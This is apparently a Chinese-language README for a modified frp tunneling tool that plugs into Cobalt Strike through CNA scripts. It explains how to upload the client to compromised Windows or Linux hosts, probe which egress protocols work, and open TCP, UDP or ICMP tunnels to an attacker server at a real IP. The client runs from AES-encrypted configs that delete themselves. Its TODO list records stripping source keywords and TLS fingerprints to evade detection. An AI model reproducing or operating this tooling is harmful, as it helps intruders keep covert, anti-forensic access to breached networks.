 # frp修改版

## 原项目
```
https://github.com/fatedier/frp
```

## 编译
运行package.sh

![image1](./images/Snipaste_2023-03-06_16-59-27.png)


## 使用手册

### 服务端

服务端配置文件如下，开启kcp_bind_port支持udp隧道，端口要设置与bind_port一致，bot_key用于企业机器人通知

```
[common]
bind_port = 8443
kcp_bind_port = 8443
tls_enable = true
tls_only = true
token = www.xcv.lss
dashboard_port = 28395
dashboard_user = lyyqwm
dashboard_pwd = rjgsjgdtk
log_file = frps.log
server_ip = x.x.x.x
bot_key = xxx-xxx-xxx-xxx-xxx
```

启动服务端

```
./server -c frps.ini
```

![image-20230306115935693](./images/image-20230306115935693.png)

服务端开启tcp与udp端口监听，用于客户端出网协议探测，并且集成pingtunnel服务端，可以使用-d参数查看pingtunnel服务端日志信息

![image-20230306120143338](./images/image-20230306120143338.png)



### cna插件用法

Cobalt Strike插件兼容windows与linux平台，导入对应的cna脚本即可，windows系统下导入frp_win.cna，linux系统下导入frp_linux.cna

![image-20230306121213597](./images/1.png)


#### upload

设置远程要上传的目录，本地frp客户端（client.exe）放在script目录下

![image-20230306130951095](./images/image-20230306130951095.png)



#### ProbeProtocol

探测出网协议，设置frps服务端地址用于探测udp与tcp协议

![image-20230306140011924](./images/image-20230306140011924.png)

发现ICMP、TCP协议可正常使用，这里UDP探测功能不够完善，某些主机上，显示udp fail，但是查看日志发现其实frp服务端已经接收到udp客户端请求，其他协议不可用时，还是可以再试试udp上线的

![image-20230306155126509](./images/image-20230306155126509.png)



#### Genrate AES Config

设置配置文件，使用AES加密，格式：mode:server ip:socks5 port:name:bind port

mode支持T/U/I三种模式，对应TCP/UDP/ICMP；bing port可以省略，默认443端口，对应frps.ini中的bind_port，如下，开启ICMP隧道

```
I:1.117.73.197:12345:test:8443
```

![image-20230306132410073](./images/image-20230306132410073.png)



#### upload config

上传配置文件到服务器当前目录

![image-20230306132547504](./images/image-20230306132547504.png)

![image-20230306132812054](./images/image-20230306132812054.png)

#### Run

无参数执行服务器当前目录下的frp客户端，以test.txt为配置文件，执行后删除

![image-20230306132940802](./images/image-20230306132940802.png)

成功上线ICMP隧道，并且test.txt文件已经删除

#### Delete

关闭进程并删除frp客户端文件

![image-20230306140222723](./images/image-20230306140222723.png)



#### linux平台

linux平台的cna插件用法与windows平台大致无二，除了upload功能，由于linux C2下上传文件大小的限制，需要设置远程下载地址

![image-20230306140830338](./images/image-20230306140830338.png)



### 手工上线

#### frp客户端用法（-h输出已隐藏）

```
C:\Windows\Temp>client.exe -h
client is the client of tool (https://m)

Usage:
  client [flags]

Flags:
  -p, --aesStr string                aesStr of config (default "test")
  -d, --debug int                    debug pingtunnel
  -h, --help                         help for client
  -s, --probeProtocolServer string   probe protocol server (default "test")
  -w, --writeConfigFile string       write aes config file (default "test")
```

-s参数指定frp服务端，可以进行出网协议探测

#### 加密参数执行

```
./client -p 【AES加密串】
```

参数为AES字符串，访问如下网址进行加密字符串生成

```
https://gchq.github.io/CyberChef/#recipe=AES_Encrypt(%7B'option':'UTF8','string':'%23HvL%25$o0oNNoOZnk%23o2qbqCeQB1iXeIR'%7D,%7B'option':'UTF8','string':'%23HvL%25$o0oNNoOZnk%23o2qbqCeQB1iXeIR'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')&input=MQ
```

格式：mode:server ip:socks5 port:name:bind port

mode支持T/U/I三种模式，对应TCP/UDP/ICMP；bing port可以省略，默认443端口，对应frps.ini中的bind_port，如下，开启ICMP隧道

```
I:1.117.73.197:23456:test:8443
```

![image-20230306141745004](./images/image-20230306141745004.png)

![image-20230306141832874](./images/image-20230306141832874.png)

成功上线

![image-20230306141849594](./images/image-20230306141849594.png)



frp客户端集成pingtunnel客户端，在使用ICMP隧道时，可以使用-d参数查看pingtunnel客户端日志

![image-20230306142410913](./images/image-20230306142410913.png)



#### 无参数执行

-w参数写入配置文件，无参数直接运行即可上线，程序会读取当前目录的test.txt做为配置文件并删除

```
client.exe -w 【明文配置】
```

![image-20230306142935908](./images/image-20230306142935908.png)



## TODO

- [x] 去除源码关键字和TLS连接特征

- [x] 支持企业微信机器人通知

- [x] 加密参数执行，无参数自删除配置文件执行

- [x] 支持UDP，ICMP协议上线
- [x] 自动探测出网协议


